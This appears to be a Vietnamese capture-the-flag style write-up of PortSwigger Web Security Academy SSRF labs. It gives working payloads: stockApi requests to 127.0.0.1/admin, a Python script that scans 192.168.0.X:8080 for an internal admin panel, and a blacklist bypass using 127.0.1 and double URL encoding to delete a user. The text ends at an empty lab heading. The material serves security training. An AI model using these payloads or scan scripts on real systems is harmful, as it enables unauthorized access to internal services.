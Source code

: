 # SSRF
 
 
## Lab: Basic SSRF against the local server
 
Thông thường chúng ta không thể truy cập vào chức năng quản trị viên ví dụ như /admin khi chưa được xác thực. Nhưng khi truy cập vào URL /admin từ localhost thì một số kiểm tra có thể bị bỏ qua:
 
```
POST /product/stock HTTP/1.1
Host: ac811fc91fa9cb6bc0ec9237009000c1.web-security-academy.net
 
stockApi=http://127.0.0.1/admin
 
 
HTTP/1.1 200 OK
 
<a href="/admin/delete?username=carlos">Delete</a>
```
 
như phản hồi ta thấy server đã fetch lại nội dung trong /admin và trả lại cho người dùng, từ đó ta xóa người dùng carlos và giải quyết thử thách
 
Note:
 
Tại sao các ứng dụng hoạt động theo cách này và mặc nhiên tin tưởng các yêu cầu đến từ máy cục bộ?  Điều này có thể phát sinh vì nhiều lý do:
+ Access control có thể được triển khai trong một thành phần khác nằm phía front-end của server. Khi một kết nối được thực hiện trở lại chính máy chủ, việc kiểm tra sẽ bị bỏ qua.
+ Với mục đích recovery thảm họa, ứng dụng có thể cho phép truy cập quản trị mà không cần đăng nhập, cho bất kỳ người dùng nào đến từ máy cục bộ. Điều này cung cấp một cách để quản trị viên khôi phục hệ thống trong trường hợp họ mất thông tin đăng nhập. Giả định ở đây là chỉ một người dùng hoàn toàn đáng tin cậy mới đến trực tiếp từ chính máy chủ.
+ Giao diện quản trị có thể đang lắng nghe trên một số port khác vì thế người dùng có thể không truy cập trực tiếp được.
 
---
## Lab: Basic SSRF against another back-end system
 
### Description
Phòng thí nghiệm này có tính năng kiểm tra kho, lấy dữ liệu từ hệ thống nội bộ.
 
Để giải quyết phòng thí nghiệm, hãy sử dụng chức năng kiểm tra kho để quét phạm vi 192.168.0.X nội bộ để tìm giao diện quản trị trên cổng 8080, sau đó sử dụng chức năng này để xóa carlos của người dùng.
 
### Analysis
 
Có một loại mối quan hệ khác thường phát sinh SSRF là khi máy chủ có thể tương tác với các hệ thống back-end khác mà người dùng có thể truy cập trực tiếp. Các hệ thống này thường có địa chỉ ip private không thể định tuyến được. Vì thế trong một số trường hợp SSRF chúng ta cần tìm ra địa chỉ ip của máy chủ để thực hiện exploit.
 
Dưới đây là script để tìm IP
```python
 
import requests
 
URL = 'https://ac771f041f635a7cc0a9310100a90041.web-security-academy.net/product/stock'
cookies = {'session': 'OKHuNr4TQlvXPTluBx79JBlrWoXUQGAs',}
 
for i in range(1,256):
    data = {
    'stockApi': f'http://192.168.0.{i}:8080/admin'
    }
 
    r  = requests.post(URL, cookies=cookies, data=data)
    if r.status_code == 200: # response 500 server error is not ip correct
        print (i, "OK")
        break
    else:
        print(i, "Fail")
 
```
 
```
110 Fail
111 Fail
112 Fail
113 Fail
114 Fail
115 Fail
116 Fail
117 OK
```
=> địa chỉ ip của server là 192.168.0.117
```
POST /product/stock HTTP/1.1
Host: ac771f041f635a7cc0a9310100a90041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
 
stockApi=http://192.168.0.117:8080/admin/delete?username=carlos
```
 
---
 
## Lab: SSRF with blacklist-based input filter

Challenge này có black list có thể chứa

```
127.0.0.1
a
```
Chúng ta có thể bypass địa chỉ 127.0.0.1 bằng cách dùng short url loại bỏ đi một số kí tự 0. Bypass `a` bằng cách dùng url double encode %25%36%31

payload cuối cùng là:
```
stockApi=http://127.0.1/%25%36%31dmin
```

Sau đó phản hồi đưa chúng ta đến với trang quản trị admin panel
```
<div>
<span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
```
Sau đó xóa tên carlos và giải quyết challenge. Kí tự `a` trong carlos cũng phải double encode để bypass.

```
POST /product/stock HTTP/1.1
Host: ac181f661f9946c1c05d8a4f007d0065.web-security-academy.net

stockApi=http://127.0.1/%25%36%31dmin/delete?username=c%25%36%31rlos


HTTP/1.1 302 Found
Location: /admin
```

---

## Lab: 


